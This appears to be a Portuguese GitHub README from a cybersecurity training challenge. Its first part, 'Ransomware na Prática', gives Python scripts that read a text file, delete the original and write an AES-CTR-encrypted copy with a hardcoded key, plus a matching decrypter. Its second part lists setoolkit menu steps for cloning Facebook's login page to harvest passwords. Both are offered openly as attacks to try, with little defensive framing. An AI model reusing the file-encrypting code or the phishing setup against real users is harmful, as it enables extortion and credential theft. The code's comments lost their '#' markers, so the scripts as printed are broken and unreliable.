 # Desafio-CiberSecurity 

## Ransomware na Prática com Python no Kali Linux

Encriptografar/descriptografar arquivo txt com código python.
-    Código decrypt
-         import os
          import pyaes
          abrir o arquivo criptografado
          file_name = "teste.txt.ransomwaretroll"
          file = open(file_name, "rb")
          file_data = file.read()
          file.close()

          chave para descriptografia
          key = b"testeransomwares"
          aes = pyaes.AESModeOfOperationCTR(key)
          decrypt_data = aes.decrypt(file_data)

          remover o arquivo criptografado
          os.remove(file_name)

          criar o arquivo descriptografado
          new_file = "teste.txt"
          new_file = open(f'{new_file}', "wb")
          new_file.write(decrypt_data)
          new_file.close()

-    Código encrypt
-         import os
          import pyaes

        abrir o arquivo a ser criptografado
        file_name = "teste.txt"
        file = open(file_name, "rb")
        file_data = file.read()
        file.close()

        remover o arquivo
        os.remove(file_name)

        chave de criptografia
        key = b"testeransomwares"
        aes = pyaes.AESModeOfOperationCTR(key)

        criptografar o arquivo
        crypto_data = aes.encrypt(file_data)

        salvar o arquivo criptografado
        new_file = file_name + ".ransomwaretroll"
        new_file = open(f'{new_file}','wb')
        new_file.write(crypto_data)
        new_file.close()
  
- Ferramentas
    - Kali Linux
- Biblioteca Python
    - Pyaes
      
# Desafio-CiberSecurity
## Pishing para captura de senhas do Facebook 

- Ferramentas
    -  Kali Linux
    -  setoolkit

# A partir do Kali Linux, configurações para o processo de captura no ataque de engenharia social

- Acesso Root : sudo su
- Iniciando setoolkit
- Tipo de ataque: Social Engineering Attacks
- Vetor de ataque: Web Site Attack Vectors
- Método de ataque: Credential Harvester Attack Method
- Método de ataque: Site Cloner
- Obtendo o endereço da máquina Ifconfig
- URL para clone: http//www.Facebook.com

  # Resultado

  ![Captura de tela 2023-08-29 140141](https://github.com/MarcelHarding/Desafio-CiberSecurity/assets/106993667/bbd19914-d8b9-4681-9e0c-a9f59d88e7e0)
